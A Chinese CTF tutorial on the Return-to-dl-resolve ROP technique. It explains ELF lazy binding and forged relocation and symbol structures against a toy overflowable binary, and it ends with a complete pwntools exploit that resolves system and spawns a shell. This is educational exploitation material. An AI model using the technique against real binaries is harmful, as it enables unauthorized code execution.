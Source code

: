 > 本文首发于合天智汇微信公众号

本文介绍一种CTF中的高级rop技巧-Return-to-dl-resolve，不久前的0CTF中的babystack和blackhole就用到了这个技巧。

## 预备知识
在开始本文前希望大家能预先了解一下什么叫延迟绑定

好了，我们开始

假设存在以下程序：

    //gcc x86.c -fno-stack-protector -m32 -o x86
    #include <unistd.h>
    #include <string.h>
    char gift[0x200];
    void fun(){
    	char buffer[0x20];
    	read(0,buffer,0x200);
    }
    int main(){
    	fun();
    	return 0;
    }

当程序第一次执行read函数时,先执行

    →  0x804841f <fun+20> call   0x80482e0 <read@plt>
       ↳   	0x80482e0 <read@plt+0> jmp	DWORD PTR ds:0x804a00c <--先跳到0x804a00c指向的地址处执行
       		0x80482e6 <read@plt+6> push 0x0 <---此时入栈的0是JMPREL段（对应 .rel.plt节）的read的Elf32_Rel的相对偏移,即rel_offset
       		0x80482eb <read@plt+11>jmp	0x80482d0

程序会跳到0x804a00c指向的地址处执行，第一次调用函数时，0x804a00c中存的就是下一句指令push 0x0的地址0x80482e6

    gef➤  x/x 0x804a00c
    0x804a00c:	0x080482e6

继续执行，先将0x0压栈，再跳到0x80482d0处执行，0x80482d0处的代码为

    .plt:080482D0 push	ds:dword_804A004 <---此时入栈的是JMPREL段的基地址
    .plt:080482D6 jmp 	ds:dword_804A008

0x804a000是got表的起始地址。

GOT表的前三项有特殊含义:
第一项是.dynamic段的地址，第二个是link_map的地址，第三个是_dl_runtime_resolve函数的地址，第四项开始就是函数的GOT表了，在这里第一项就是read@got了

    .got.plt:0804A000 _GLOBAL_OFFSET_TABLE_ dd offset _DYNAMIC
    .got.plt:0804A004 dword_804A004   dd 0; DATA XREF: sub_80482D0↑r
    .got.plt:0804A008 dword_804A008   dd 0; DATA XREF: sub_80482D0+6↑r
    .got.plt:0804A00C off_804A00C dd offset read  ; DATA XREF: _read↑r

以上代码就相当于执行_dl_runtime_resolve(link_map,rel_offset)

rel是个结构体：

    typedef struct
    {
      Elf32_Addr	r_offset;   /*  这个值就是got表的虚拟地址 */
      Elf32_Word	r_info; /* .dynsym节区符号表索引 */
    } Elf32_Rel;
    #define ELF32_R_SYM(val)((val) >> 8)
    #define ELF32_R_TYPE(val)   ((val) & 0xff)

rel结构存在于.rel.plt段中

.rel.plt段基址使用objdump -s -j .rel.plt ./x86命令来查看

_dl_runtime_resolve先根据rel_offset定位到这个rel结构，再根据r_info定位到.dynsym节区中的动态链接符号表，符号表由Elf32_Sym结构表示：

    typedef struct
    {
    Elf32_Word	st_name;   /* Symbol name (string tbl index) 这个就是*/
    Elf32_Addr	st_value;  /* Symbol value */
    Elf32_Word	st_size;   /* Symbol size */
    unsigned char 	st_info;   /* Symbol type and binding */
    unsigned char 	st_other;  /* Symbol visibility under glibc>=2.2 */
    Elf32_Section 	st_shndx;  /* Section index */
    } Elf32_Sym;

.dynsym基地址使用objdump -s -j .dynsym ./x86来获取。

其中第一项st_name就是其对应的函数名字符串到.dynstr节起始的偏移值。函数定位到Elf32_Sym结构再根据st_name定位到.dynstr中的函数名

.dynstr节包含了动态链接的字符，字符串是直接以ASCII码的形式储存的

.dynstr的基地址由objdump -s -j .dynstr ./x86来获得。
    
    $ objdump -s -j .dynstr ./x86
    
    ./x86: file format elf32-i386
    
    Contents of section .dynstr:
     804821c 006c6962 632e736f 2e36005f 494f5f73  .libc.so.6._IO_s
     804822c 7464696e 5f757365 64007265 6164005f  tdin_used.read._
    
    gef➤  x/5s 0x804821c
    0x804821c:	""
    0x804821d:	"libc.so.6"
    0x8048227:	"_IO_stdin_used"
    0x8048236:	"read"
    0x804823b:	"__libc_start_main"

最终找到了函数名，程序根据函数名找到函数的真正地址，写入read@got

总结一些流程：

    index_arg(push xx)——>.rel.plt(Elf32_Rel)——>.dynsym(Elf32_Sym)——>.dynstr(st_name)

## 利用思路

事实上，虚拟地址是通过最后一个箭头，即从st_name得来的，只要我们能够修改这个st_name就可以执行任意函数。比如把st_name的内容修改成为"system"。

而index_arg是我们控制的，我们需要做的是通过一系列操作。把index_arg可控转化为st_name可控。

我们需要在一个可写地址上构造一系列伪结构就可以完成利用

##  漏洞利用

就以以下这个程序为例

    //gcc x86.c -fno-stack-protector -m32 -o x86
    #include <unistd.h>
    #include <string.h>
    char gift[0x200];
    void fun(){
    	char buffer[0x20];
    	read(0,buffer,0x200);
    }
    int main(){
    	fun();
    	return 0;
    }

我们可以在gift中构造我们需要的伪结构

### 1.计算index_arg控制.rel.plt(Elf32_Rel)结构体位置

index_arg是我们直接通过压栈参数进行控制的，使用要伪造的目标地址减去.rel.plt段基地址就是index_arg的值

    .bss:0804A040 public gift
    .bss:0804A040 giftdb? ;
    .bss:0804A041 db? ;
    .bss:0804A042 db? ;
    
    $ objdump -s -j .rel.plt ./x86
    ./x86: file format elf32-i386
    Contents of section .rel.plt:
     08048298 0ca00408 07010000 10a00408 07030000  ................

index_arg = 0x0804A040 - 0x08048298 = 0x1da8

### 2.构造.rel.plt(Elf32_Rel)控制.dynsym(Elf32_Sym)

    r_info的计算方法是
    1.n = (欲伪造的地址-.dynsym基地址)/0x10
    2.r_info = n<<8

    $ objdump -s -j .dynsym ./x86
    
    ./x86: file format elf32-i386
    
    Contents of section .dynsym:
     80481cc 00000000 00000000 00000000 00000000  ................

	n = ((0x0804A040 + 4*4) - 0x080481cc)/0x10
	r_info = n<<8 = 0x1e800

	还需要过#define ELF32_R_TYPE(val)   ((val) & 0xff)宏定义，ELF32_R_TYPE(r_info)=7，因此
	r_info = 0x1e800 + 0x7 = 0x1e807

### 3.构造.dynsym(Elf32_Sym)控制.dynstr(st_name)

    $objdump -s -j .dynstr ./x86
    ./x86: file format elf32-i386
    Contents of section .dynstr:
     804821c 006c6962 632e736f 2e36005f 494f5f73  .libc.so.6._IO_s

	st_name = (0x0804A040 + 8 + 24) - 0x804821c = 0x1e44

### 4. .dynstr写入system完成利用

直接写入ASCII形式的system即可

最终的gift中排布形式如下

<center>![](./Images/1.1.png)</center>

## exp

    from pwn import*
    p = process('./x86')
    #context.log_level = 'debug'
    elf = ELF('./x86')
    gift = 0x0804A040
    
    payload = 0x28*'a' + 4*'a'
    payload +=  p32(elf.plt['read']) + p32(0x0804840B)
    payload += p32(0) + p32(gift) + p32(17*4)
    
    p.sendline(payload)
    
    payload = ''
    payload += p32(0x0804a00c) + p32(0x1e807)
    payload += p32(0x1e44)*2
    payload += p32(0) + p32(0x00000012)*3
    payload += 'system\x00\x00'
    payload += 'system\x00\x00'
    payload += '/bin/bash\x00'
    
    p.sendline(payload)
    
    payload = 0x28*'a' + 4*'a'
    payload += p32(0x080482D0) + p32(0x1da8) + p32(0x0804840B) + p32(gift + 12*4)
    p.sendline(payload)
    
    p.interactive()


这个技巧主要用在没有libc.so以及程序中没有输出函数的情况下